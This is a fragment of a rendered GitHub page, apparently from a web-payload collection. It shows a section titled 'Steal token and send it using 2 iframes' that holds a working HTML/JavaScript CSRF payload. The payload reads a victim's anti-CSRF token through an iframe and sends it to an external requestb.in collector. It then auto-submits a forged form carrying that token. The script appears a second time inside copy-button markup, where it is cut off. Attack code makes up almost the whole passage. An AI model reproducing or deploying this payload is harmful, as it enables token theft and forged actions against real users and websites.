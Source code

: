     <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-token-and-send-it-using-2-iframes" class="anchor" aria-hidden="true" href="#steal-token-and-send-it-using-2-iframes"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal token and send it using 2 iframes</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;script&gt;
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
&lt;/script&gt;

&lt;iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"&gt;&lt;/iframe&gt;

&lt;iframe id="frame2" name="frame2" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"&gt;&lt;/iframe&gt;
&lt;body onload="document.forms[0].submit()"&gt;
&lt;form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data"&gt;
  &lt;input type="text" name="username" value="z"&gt;
  &lt;input type="checkbox" name="status" checked=""&gt;        
  &lt;input id="token" type="hidden" name="token" value="0000" /&gt;
  &lt;button type="submit"&gt;Submit&lt;/button&gt;
&lt;/form&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
var token;
function readframe1(){
  token = frame1.document.getElementById(&quot;profile&quot;).token.value;
  document.getElementById(&quot;bypass&quot;).token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId(&quot;frame2&quot;);
  test.src = &quot;http://requestb.in/1g6asbg1?token=&quot;+token;
}
</script>
